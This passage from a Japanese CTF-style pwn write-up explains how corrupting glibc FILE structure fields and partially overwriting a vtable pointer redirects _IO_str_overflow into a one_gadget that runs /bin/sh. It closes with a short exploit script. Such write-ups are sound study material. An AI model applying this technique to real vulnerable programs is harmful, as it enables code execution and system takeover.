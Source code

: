 _IO_blenの定義は以下。

```c: libio/libioP.h#L535
#define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)
```

今回flush_onlyは0なので_s._allocate_bufferを呼び出すためには以下のようにすればよいことが分かる。

```
・ (fp->_IO_write_ptr - fp->_IO_write_base) >= (fp->_IO_buf_end - fp->_IO_buf_base)
・ fp->_flags = 0
```
まずIO_buf_endをdefault_morecore関数のアドレスに書き変える。この値は__morecoreに置かれているので先ほど定義したcopyを用いることで書き変え出来る。この書き変えを行うと以下のようになる。_IO_buf_endをこの値にすることで嬉しいことがある。(後述)
```
fp->_IO_buf_end = libc_base(未知) + OFFSET(default_morecore)
```
_s._allocate_bufferはcall raxのアドレスに改竄し、raxがone_gadgetのアドレスになるように調整する。one_gadgetのアドレスを直接書き込まないのはこれがdefault_morecoreの近くにないためである。call raxはdefalt_morecoreの近くにあるのでpartial overwriteによりアドレスを作ることができる。_IO_str_overflowが呼ばれる際にraxに入ってるのは_IO_buf_end - _IO_buf_baseの値である。_IO_buf_endにはdefault_morecore関数のアドレスを入れたので_IO_buf_baseは以下のようにすれば良い。
```
_IO_buf_base = OFFSET(__default_morecore) - OFFSET(one_gadget)
```
すると_IO_buf_end - _IO_buf_baseの値は以下のようになり、raxがone_gadgetのアドレスになることが分かる。_IO_buf_endをdefault_morecore関数のアドレスにしたおかげでlibc_baseの情報が無いにも関わらずone_gadgetのアドレスを作り出せている。
```
_IO_buf_end - _IO_buf_base = libc_base + OFFSET(default_morecore) - (OFFSET(__default_morecore) - OFFSET(one_gadget))
                           = libc_base + OFFSET(one_gadget)
```
今回使用するone gadgetは以下である。これを使用するにはスタックを16byte alignしてかつrcxを0にする必要がある。_s._allocate_bufferの呼び出し時、rcxには_flagsの値が入っている。これが上で_flagsを0にしていた理由である。jmp raxではなくcall raxを使っているのはスタックを16 byte alignするためである。
```
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
```
次に_IO_write_ptrを改竄する。_s_allocate_bufferを呼び出すには以下の条件を満たす必要があった。
```
(fp->_IO_write_ptr - fp->_IO_write_base) >= (fp->_IO_buf_end - fp->_IO_buf_base)
```
_IO_buf_end - _IO_buf_baseは以下の値になっている。
```
&default_morecore - (OFFSET(__default_morecore) - OFFSET(one_gadget))
```
fp->_IO_write_ptr - fp->_IO_write_baseがこの値より大きくなれば何でもよい。_IO_write_ptrにはedit関数を用いて64bit整数の最大値である2^(64 - 1)を書き込んでおく。以上をまとめるとexploitは以下のようになる。

```python: exploit.py#L142
edit(_flags, pack(0))
edit(_IO_write_ptr, pack(2 ** 64 - 1))
edit(_IO_buf_base, pack(__default_morecore - one_gadget))
copy(_IO_buf_end, __more_core, b'')
edit(vtable, pack(_IO_str_jumps - 0x20)[:2])
copy(_allocate_buffer, __more_core, pack(call_rax)[:2])
```


[^1]: 草野 一彦「解題pwnable」(https://amzn.asia/d/1JasEUa)